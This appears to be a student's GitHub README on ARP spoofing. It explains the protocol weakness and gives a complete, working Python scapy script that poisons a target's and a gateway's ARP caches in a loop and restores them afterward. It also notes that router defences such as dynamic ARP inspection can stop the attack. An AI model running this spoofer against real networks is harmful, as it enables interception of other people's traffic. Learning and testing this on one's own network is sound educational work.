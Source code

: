 # How to check if your router tries to protect you

**ARP Spoofing** also known as Man in the Middle is simple but powerful attack. It exploits the vulnerabilites of ARP (Address Resolution Protocol)

-------------------------------------------------------------------------------

## How ARP Spoofing Works

Normally these are how the computers in a network communicate (this works for ethernet switches).  

![Load](https://documentation.meraki.com/@api/deki/files/5903/Screen_Shot_2017-12-03_at_8.09.11_PM.png?revision=1&size=bestfit&width=622&height=242)

The victim (who is not the victim yet) sends an ARP broadcast to ask what are the MAC addresses of the machines with the given IP. For example, the ARP request asks who 10.10.10.20 is, the router has that IP and the router sends its MAC address to the machine that asked. The machine will then update its table so whenever it needs to send something to 10.10.10.20, it will send it to the MAC address that was given. You may now see what the vulnerability is. I could send a message to the victim saying that I'm 10.10.10.20 but give it **MY** MAC address. Now when it needs to send something to 10.10.10.20, it will send the requests to my MAC address. *The **power** feels great!*

![Get rekt](https://miro.medium.com/max/4800/1*Nz1e4AfW6HGcgXde_eIwUg.jpeg)

-------------------------------------------------------------------------------

## How the Code Works

Remember, we need to tell the victim that we're the router, so we'll create a packet doing just that. I should also say I used the library scapy.
```python
def spoof(targetip, targetmac, sourceip):
    spoofed = ARP(op=2 , pdst=targetip, psrc=sourceip, hwdst= targetmac)
    send(spoofed, verbose= False)
```
What this does is create a packet with packet destination (pdst) of the target, this tells them this packet was especially made for them, packet source (psrc) of the router so it looks like it's coming from them, and hwdst (hardware destination) is to send it to the right person. This packet will have a hwsrc (hardware source) of our IP so they associate our MAC address with the router's IP. 
```python
def restorearp(targetip, targetmac, sourceip, sourcemac):
    packet = ARP(op=2 , hwsrc=sourcemac , psrc= sourceip, hwdst= targetmac , pdst= targetip)
    send(packet, verbose=False)
    print("ARP Table restored to normal for", targetip)
```
The code above is to reverse previous actions, telling the victim that the IP of router should be associated with the MAC of the router. You literally have to reverse it, showing the **power** of the attack. 
```python
def main():
    targetip = "192.168.0.24"
    gatewayip = "192.168.0.1"
    targetmac = "a4:5e:60:b9:d6:ab"
    gatewaymac = "9c:c9:eb:c9:1a:1a"

    try:
        print("Sending spoofed ARP responses")
        #restorearp(gatewayip, gatewaymac, targetip, targetmac)
        #restorearp(targetip, targetmac, gatewayip, gatewaymac)
        while True:
            spoof(targetip, targetmac, gatewayip)
            spoof(gatewayip, gatewaymac, targetip)
    except KeyboardInterrupt:
        print("ARP spoofing stopped")
        restorearp(gatewayip, gatewaymac, targetip, targetmac)
        restorearp(targetip, targetmac, gatewayip, gatewaymac)
        quit()

if __name__=="__main__":
    main()
``` 
Here I specify the IP addresses and MAC addresses. You could automate this part, but if you have something like nmap or a network scanner (you can code this as well) you can find the addresses and manual code them in. Then we send the packets, we have to do this repeatedly so the victim thinks we're the router. If you want to turn it off, you can use Ctrl+C and it'll revert it. 

-------------------------------------------------------------------------------

## Why it may not work for you

I wasn't initially planning on making this section, but we got a new router and the spoofer doesn't wor anymore. This is actually a good thing, but not for this project. I started doing research to figure out what happened,

![Literally Me](https://pbs.twimg.com/media/EIzT11bU8AAgvlM.jpg)

I was enlightened with the knowledge of this random stackoverflow dude

>The spoof should work almost immediately if it is working properly. New devices will see the gratuitous arp from the attacker and automatically update their >cache. A victim will not detect duplicate IP, they should just update the mapping. The problem is likely at the router.
>
>Arpspoof works through a switch because the switch has no way of knowing which port the legitimate IP address/MAC mapping is, so without any form of port >security/DHCP snooping/Dynamic arp inspection, it has to trust that a device is who it says it is when it claims "192.168.1.1 is at aa:bb:cc:dd:ee:aa" in its >arp reply/gratuitous arp.
>
>        ~Some dude on Stack Overflow

What this basically says is the router is being skeptical. ARP Spoofing depends a lot on the router trusting the hacker's computer. The switch is doing what we want it to do, but the router is detecting something fishy from the hacker's computer. 

-------------------------------------------------------------------------------

## What I learned

 I must the router screwing up everything led to me learning a lot more than what I would've. 
 
 1. ARP Spoofing, I learned what ARP Spoofing is and how to do it.
 2. nmap and netstat, I used these programs to find IP and MAC addresses.
 3. MacPorts, Port forwarding, IP forwarding, I had to enable these to get it to work.
 4. A bunch of command line stuff, I learned more about command line and different ways to troubleshoot using terminal.
 5. Scapy, I used the library scapy to create packages. 
 6. A lot about networks, permissions, and many other things. 
